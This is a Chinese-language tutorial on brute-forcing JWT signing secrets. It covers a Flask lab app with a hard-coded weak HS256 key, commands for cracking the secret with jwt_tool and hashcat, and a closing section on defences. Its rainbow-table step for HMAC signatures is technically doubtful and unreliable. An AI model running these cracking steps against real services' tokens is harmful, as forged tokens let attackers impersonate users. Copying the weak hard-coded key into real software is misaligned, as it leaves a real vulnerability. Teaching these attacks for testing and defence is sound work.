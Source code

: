 # JWT令牌密钥爆破的攻击技术

## 1. 技术原理解析

### 1.1 JWT概述
JSON Web Token (JWT) 是一种开放标准 (RFC 7519)，用于在网络应用环境间安全地传递声明。JWT通常由三部分组成：头部（Header）、载荷（Payload）和签名（Signature）。签名部分用于验证令牌的完整性和真实性。

### 1.2 JWT签名机制
JWT的签名部分是通过将头部和载荷进行Base64编码后，使用指定的算法（如HMAC SHA256）和密钥进行加密生成的。如果攻击者能够猜测或爆破出密钥，就可以伪造或篡改JWT令牌。

### 1.3 密钥爆破的原理
密钥爆破是一种通过尝试大量可能的密钥来猜测正确密钥的攻击方法。在JWT的上下文中，攻击者通过尝试不同的密钥来验证是否能够生成有效的签名。如果生成的签名与原始签名匹配，则说明密钥猜测成功。

## 2. 常见攻击手法和利用方式

### 2.1 字典攻击
字典攻击是一种常见的密钥爆破方法，攻击者使用预定义的密钥字典（如常见密码、弱密钥等）来尝试猜测密钥。

### 2.2 暴力破解
暴力破解是一种通过穷举所有可能的密钥组合来猜测正确密钥的方法。这种方法通常需要大量的计算资源和时间。

### 2.3 彩虹表攻击
彩虹表是一种预先计算的哈希表，用于快速查找哈希值对应的原始数据。在JWT的上下文中，攻击者可以使用彩虹表来快速查找与签名匹配的密钥。

### 2.4 侧信道攻击
侧信道攻击是一种通过分析系统的物理特性（如时间、功耗等）来推断密钥的方法。在JWT的上下文中，攻击者可以通过分析签名生成过程中的时间差异来推断密钥。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
为了进行JWT密钥爆破实验，我们需要搭建一个包含JWT生成和验证功能的Web应用。可以使用以下工具和技术：
- **Python**：用于编写JWT生成和验证的脚本。
- **Flask**：用于搭建Web应用。
- **PyJWT**：用于生成和验证JWT令牌。

#### 3.1.1 安装依赖
```bash
pip install flask pyjwt
```

#### 3.1.2 编写Web应用
```python
from flask import Flask, request, jsonify
import jwt
import datetime

app = Flask(__name__)
SECRET_KEY = 'supersecretkey'

@app.route('/generate', methods=['GET'])
def generate_token():
    payload = {
        'user': 'admin',
        'exp': datetime.datetime.utcnow() + datetime.timedelta(minutes=30)
    }
    token = jwt.encode(payload, SECRET_KEY, algorithm='HS256')
    return jsonify({'token': token})

@app.route('/verify', methods=['POST'])
def verify_token():
    token = request.json.get('token')
    try:
        decoded = jwt.decode(token, SECRET_KEY, algorithms=['HS256'])
        return jsonify({'status': 'valid', 'user': decoded['user']})
    except jwt.InvalidTokenError:
        return jsonify({'status': 'invalid'})

if __name__ == '__main__':
    app.run(debug=True)
```

### 3.2 攻击步骤

#### 3.2.1 获取JWT令牌
首先，攻击者需要获取目标应用的JWT令牌。可以通过以下命令获取：
```bash
curl http://localhost:5000/generate
```

#### 3.2.2 使用字典攻击爆破密钥
攻击者可以使用`jwt_tool`工具进行字典攻击。首先，安装`jwt_tool`：
```bash
git clone https://github.com/ticarpi/jwt_tool.git
cd jwt_tool
pip install -r requirements.txt
```

然后，使用以下命令进行字典攻击：
```bash
python3 jwt_tool.py <JWT_TOKEN> -C -d /path/to/dictionary.txt
```

#### 3.2.3 使用暴力破解爆破密钥
攻击者可以使用`hashcat`工具进行暴力破解。首先，安装`hashcat`：
```bash
sudo apt-get install hashcat
```

然后，使用以下命令进行暴力破解：
```bash
hashcat -m 16500 <JWT_TOKEN> /path/to/wordlist.txt
```

#### 3.2.4 使用彩虹表攻击爆破密钥
攻击者可以使用`rainbowcrack`工具进行彩虹表攻击。首先，安装`rainbowcrack`：
```bash
sudo apt-get install rainbowcrack
```

然后，使用以下命令进行彩虹表攻击：
```bash
rcrack /path/to/rainbowtables -h <JWT_SIGNATURE>
```

#### 3.2.5 使用侧信道攻击推断密钥
侧信道攻击通常需要专门的硬件和软件工具，且实施起来较为复杂。攻击者可以通过分析签名生成过程中的时间差异来推断密钥。

## 4. 实际命令、代码或工具使用说明

### 4.1 `jwt_tool`使用说明
`jwt_tool`是一个用于分析和爆破JWT令牌的Python工具。常用命令包括：
- **分析JWT令牌**：`python3 jwt_tool.py <JWT_TOKEN>`
- **字典攻击**：`python3 jwt_tool.py <JWT_TOKEN> -C -d /path/to/dictionary.txt`
- **暴力破解**：`python3 jwt_tool.py <JWT_TOKEN> -C -b`

### 4.2 `hashcat`使用说明
`hashcat`是一个强大的密码破解工具，支持多种哈希算法。常用命令包括：
- **暴力破解JWT令牌**：`hashcat -m 16500 <JWT_TOKEN> /path/to/wordlist.txt`
- **指定字符集**：`hashcat -m 16500 <JWT_TOKEN> -a 3 ?a?a?a?a?a?a?a?a`

### 4.3 `rainbowcrack`使用说明
`rainbowcrack`是一个使用彩虹表进行密码破解的工具。常用命令包括：
- **生成彩虹表**：`rtgen <hash_type> <charset> <min_len> <max_len> <table_index> <chain_len> <chain_num>`
- **破解JWT签名**：`rcrack /path/to/rainbowtables -h <JWT_SIGNATURE>`

## 5. 防御措施

### 5.1 使用强密钥
确保使用足够长且随机的密钥，避免使用常见密码或弱密钥。

### 5.2 定期轮换密钥
定期更换JWT签名密钥，减少密钥被爆破的风险。

### 5.3 使用非对称加密算法
使用非对称加密算法（如RS256）代替对称加密算法（如HS256），增加密钥爆破的难度。

### 5.4 实施速率限制
对JWT验证接口实施速率限制，防止攻击者进行大规模的密钥爆破尝试。

### 5.5 监控和日志分析
实时监控JWT验证接口的访问日志，及时发现和阻止异常请求。

## 结论
JWT令牌密钥爆破是一种常见的攻击手法，攻击者可以通过字典攻击、暴力破解、彩虹表攻击和侧信道攻击等方法猜测或推断出JWT签名密钥。为了防御此类攻击，开发人员应使用强密钥、定期轮换密钥、使用非对称加密算法，并实施速率限制和监控措施。通过综合运用这些防御措施，可以有效降低JWT令牌密钥爆破的风险。

---

*文档生成时间: 2025-03-13 20:24:21*
